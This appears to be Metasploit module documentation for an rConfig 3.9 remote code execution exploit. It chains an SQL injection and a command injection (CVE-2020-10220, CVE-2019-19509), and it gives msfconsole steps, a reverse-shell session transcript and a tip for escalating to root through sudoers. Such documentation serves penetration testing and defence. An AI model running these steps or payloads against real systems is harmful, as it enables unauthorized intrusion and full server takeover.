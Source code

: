 ## Vulnerable Application
This module exploits multiple vulnerabilities in rConfig version 3.9 and prior in order to execute arbitrary commands.

The module first add a temporary admin user to the application by exploiting an SQL injection (CVE-2020-10220).

Next, the module authenticates as the newly created user in order to abuse a command injection vulnerability in the `path` parameter of the ajaxArchiveFiles functionality within the rConfig web interface (CVE-2019-19509).

The module works with HTTP or HTTPS (both were tested) but the application does redirection via php code so SSL is enabled by default (and should be used). Valid credentials for a user with administrative privileges are required. However, this module can bypass authentication via SQLI. This module has been successfully tested on rConfig 3.9.2 and 3.9.4.

Tips : once you get a shell, look at the CVE-2019-19585. You will probably get root because rConfig install script add Apache user to sudoers with nopasswd ;-)

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. `use exploit/linux/http/rconfig_ajaxarchivefiles_rce`
4. `set RHOSTS target_ip`
5. `set RPORT target_port`
6. `set LHOST your_ip`
7. `set LPORT your_port`
8. `set verbose true`
9. `exploit -j`

## Scenarios
```
msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > show options

Module options (exploit/linux/http/rconfig_ajaxarchivefiles_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to Rconfig
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto

msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > set RHOSTS 1.1.1.1
RHOSTS => 1.1.1.1
msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > set LHOST 1.1.1.2
LHOST => 1.1.1.2

msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > 
[+] rConfig version 3.9 detected
[+] New temporary user 6QpO8mLt created
[+] Authenticated as user 6QpO8mLt
[*] Command shell session 1 opened (1.1.1.2:4444 -> 1.1.1.1:34586) at 2020-03-10 22:26:46 +0100
[+] Command successfully executed
[*] User 6QpO8mLt removed successfully !

msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > sessions -i 1
[*] Starting interaction with 1...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
## References
1. <https://nvd.nist.gov/vuln/detail/CVE-2019-19509>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-10220>
3. <https://www.exploit-db.com/exploits/47982>
4. <https://www.exploit-db.com/exploits/48208>
5. <https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2019-19509.py>
6. <https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2020-10220.py>
